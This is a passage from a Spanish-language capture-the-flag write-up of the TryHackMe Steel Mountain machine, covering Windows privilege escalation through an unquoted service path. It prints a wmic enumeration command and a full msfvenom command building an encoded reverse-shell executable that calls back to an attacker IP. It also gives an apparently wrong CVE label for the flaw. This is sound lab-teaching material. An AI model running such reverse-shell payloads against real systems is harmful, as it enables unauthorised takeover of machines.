 Podemos realizar esta busqueda de directorios con la vulnerabilidad Unquoted Service Path, con la herramienta CVE - 2020-15261.

Utilizamos el comando -> wmic service get name,displayname,pathname,startmode |findstr /i
"auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

El programa busca binarios que no sean de windows por defecto y que no tenga comillas en las rutas.

![](/assets/images/thm-steelmountain/25.JPG)

Vemos que en el directorio C:\Program Files (x86)\IObit (El usuario Bill Nos indica la W de write , tenemos permisos de escritura así que nuevamente vamos a generar el archivo malicioso utilizando msfvenom y subiendolo a la maquina victima con sbm.

msfvenom -> msfvenom -p windows/shell_reverse_tcp LHOST=10.9.8.85 LPORT=4455 -f exe -e x86/shikata_ga_nai -o ASCService.exe

Nos pondremos en escucha por el puerto 4455 con la interfaz de netcat y vemos que ganamos acceso como Administrador.

![](/assets/images/thm-steelmountain/26.JPG)

![](/assets/images/thm-steelmountain/27.JPG)

